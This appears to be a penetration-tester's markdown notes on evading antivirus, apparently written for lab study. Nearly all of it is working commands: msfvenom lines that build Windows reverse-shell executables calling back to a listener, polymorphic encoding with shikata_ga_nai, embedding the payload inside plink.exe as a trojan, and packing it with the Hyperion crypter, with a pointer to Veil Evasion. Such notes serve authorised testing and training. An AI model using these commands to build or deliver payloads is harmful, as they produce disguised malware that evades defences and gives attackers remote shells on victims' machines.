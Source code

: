 # Avoid Antivirus
the `msfpayload` and `msfencode` have beeb depricated in Metasploit in favour of `msfvenom` - however the results of the following experiment would stay the same.  

## msfvenom
- `msfvenom --list payloads`
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.179 LPORT=4444 -o shell_reverse.exe`  
- `msfvenom -p windows/shell_reverse_tcp -o reverse_shell_tcp.exe --platform windows --arch x86 LHOST=10.11.0.179 LPORT=4444`

> we'll submit our executable to `virustotal` [https://www.virustotal.com/gui/home
> we'll manipulate our reverse_shell executable further in order to try and avoid as many AV's as possible.

## encoders
```
msfvenom -l encoders
x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```
> we'll now generate our reverse shell payload via `shikata_ga_nai` encoder, 9 times.
`msfvenom --payload windows/shell_reverse_tcp --out reverse_shell_tcp.exe --encoder x86/shikata_ga_nai --iterations 9 --platform windows --arch x86 LHOST=10.11.0.179 LPORT=4444`

## embeddint in executables
We'll Specify a custom executable file to use as a template  
```
msfvenom --payload windows/shell_reverse_tcp --encoder x86/shikata_ga_nai --iterations 9 --platform windows --arch x86 -x /usr/share/windows-binaries/plink.exe -f exe LHOST=10.11.0.179 LPORT=4444 > reverse_shell_tcp_embedded.exe
```
> results are not as good as we tought they'll be. but are improved.

## Packers and Crypters
> We'll use `Hyperion` (cross compiled on kali for windows os)
```
wget https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/Hyperion-1.2.zip
unzip Hyperion-1.2.zip
i686-w64-mingw32-c++ Hyperion-1.2/Src/Crypter/*.cpp -o hyperion.exe
# for older versions of Kali
i586-mingw32msvc-c++ Hyperion-1.0/Src/Crypter/*.cpp -o hyperion.exe
# or simply download it from https://github.com/Veil-Framework/Veil-Evasion/blob/master/tools/hyperion/hyperion.exe
```
```
i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe
wine hyperion.exe reverse_shell_tcp_embedded.exe reverse_shell_tcp_embedded_crypted.exe
```

## Veil Framework
> https://github.com/Veil-Framework/Veil
- Evasion => Generates Anti-Virus avoiding executables
- Ordnance => Generates shellcode for supported payloads

